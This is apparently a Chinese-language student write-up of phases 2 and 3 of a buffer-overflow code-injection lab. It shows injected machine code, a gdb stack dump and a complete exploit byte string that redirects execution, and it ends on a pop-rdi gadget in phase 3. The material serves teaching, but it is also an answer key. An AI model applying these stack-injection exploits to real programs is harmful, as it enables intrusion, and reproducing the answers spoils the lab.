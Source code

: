
### phase2

注入代码：
```txt
inject_code.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	bf 9f fe 85 73       	mov    $0x7385fe9f,%edi
   5:	c3                   	retq    
```

调试得到栈顶地址(注入代码地址)：0x5560a898
```c
(gdb) x/80xb $rsp
0x5560a898:     0xbf    0x9f    0xfe    0x85    0x73    0xc3    0x00    0x00
0x5560a8a0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8a8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8b0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8b8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8c0:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8c8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8d0:     0xff    0x17    0x40    0x00    0x00    0x00    0x00    0x00
0x5560a8d8:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5560a8e0:     0x72    0x1f    0x40    0x00    0x00    0x00    0x00    0x00
```
**答案：**
```txt
bf 9f fe 85 73 c3 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
98 a8 60 55 00 00 00 00
ff 17 40 00 00 00 00 00
```

### phase3

cookie(去掉前缀0x)当字符串转ASCLL码``37 33 38 35 66 65 39 66``


注入代码：
```txt
inject_code2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	5f                   	pop    %rdi
   1:	c3                   	retq   
```
